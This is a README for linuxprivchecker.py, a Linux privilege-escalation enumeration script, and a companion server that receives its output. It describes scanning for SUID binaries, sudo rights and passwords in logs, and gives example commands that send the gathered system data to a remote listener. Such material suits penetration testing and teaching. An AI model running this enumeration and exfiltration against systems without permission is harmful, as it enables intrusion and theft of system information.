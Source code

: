 # `linuxprivchecker.py` --- A Linux Privilege Escalation Checker for Python 2.7 and 3.x

## Summary
This script is intended to be executed locally on a Linux machine, with a Python version of 2.7 or 3.x, to enumerate basic system info and search for common privilege escalation vectors. Currently at version 2.

## Warning and Disclaimer
This script comes as-is with no promise of functionality or accuracy. Only use this script after you understand what every line in the script does. Only run this script on machines you have permission to access, and where you have permission to access any account, files and folders for that particular machine. Check that you are compliant with the laws and regulations that apply in your place of residence, before attempting to run this script.

This script is noisy by design and can therefore raise alarm bells. If you don't want this, don't run it.

## Usage
This script will enumerate the following information for possible privilege escalation avenues:
* Basic system information as kernel version, linux distribution and hostname.
* Network information as IP addresses, routes, open connections and ARP caches.
* Current mounts and entries in /etc/fstab
* List of cron jobs and the ability to edit them.
* Scheduled tasks from systemd and possible access to journalctl.
* User, group and sudo information
* World-writeable directories and SUID binaries
* Password information in log files
* Accessibility to linux mail
* Information from the package manager and current processes
* Docker/lxc information

`linuxprivchecker.py` can be run with the following arguments
* `-h`, `--help`, should be self-explanatory.
* `-c`, `--color` for using colors in a terminal environment for easier navigation through the output.
* `-o filename`, `--outputfile filename` for storing the results in a local file.
* `-s IP:port`, `--send IP:port` to exfiltrate the information to a different machine, preferably running `linuxprivserver.py`
* `-q`, `--quiet` to not have the screen fill up with data. Useful in combination with `-o` and/or `-s`

The `linuxprivchecker.py` will produce from anywhere between a few 100 lines of output and up to 100,000 lines or even more, depending on the situation. Interpretation of the output is left as an exercise for the reader.

### The `linuxprivserver.py`, data exfiltration made easy
`linuxprivchecker.py` can be used in combination with `linuxprivserver.py` to directly exfiltration any gathered information to another machine. For this, run `linuxprivserver.py` on the receiving end and additionally you can provide the following options:
* `--ip IP` to set up a specific listening IP address, defaults to all possible IP addresses
* `--port PortNumber` to set up a port to listen on, defaults to 8080.
* `--outfile Filename` to save the received output to a file.
* `--quiet` to not output anything on the screen, useful in combination with `--outfile`.
Next run `linuxprivchecker.py` and make sure that `-s` is provided as argument with the correct IP and port information.

An example would be to locally run:
```
python linuxprivserver.py --outfile priv_info.txt
```
and on the remote system to execute (assuming local IP is 192.168.1.100):
```
python linuxprivchecker.py -s 192.168.1.100:8080 -c -q
```

### About colorized output
The option `--color` in the `linuxprivchecker.py` script will propagate the terminal color commands to the output file and to the server (and any output file specified here). This means that when you open the file in an editor you might see some weird characters. This is left intentionally in place such that it is easier to browse through with commands as `less` and `cat`. If you want to remove the color formatting, run
`cat colorized_output.txt > plain_output.txt`
or simply do not provide the `--color` option to `linuxprivchecker.py`.

## Known issues
The `linuxprivchecker.py` cannot encode UTF-16 characters (yes, there is a rare case when a shell command issued by `linuxprivchecker.py` can contain output in `UTF-16` format). Some lines might therefore be missing in the output.

## Contribution
List of contributors: imdos, brax.

Compared to the original version, this script is refactored in a form that should make it easier to add additional commands.
Feel free to raise an issue or even better (as I do not pretend to know every nook and cranny of Linux) make a pull request.

In the original version there was also a small list of checking for vulnerable versions of Linux kernels and programs. This is removed in this version, as such a checklist can produce many false positives due to back-ported updates and quickly becomes outdated. I might consider to re-include a checklist against the latest non-vulnerable versions of programs, but it is currently not on the roadmap.

## Modification, Distribution, and Attribution
The original `linuxprivchecker.py` file was produced by Mike Czumak (T_v3rn1x) -- @SecuritySift at <https://github.com/sleventyeleven/linuxprivchecker/> with the notice in the following paragraph. This message still holds for `linuxprivchecker.py` in its current form and also holds for `linuxprivserver.py`.

You are free to modify and/or distribute this script as you wish.  I only ask that you maintain original author attribution and not attempt to sell it or incorporate it into any commercial offering (as if it's worth anything anyway :)
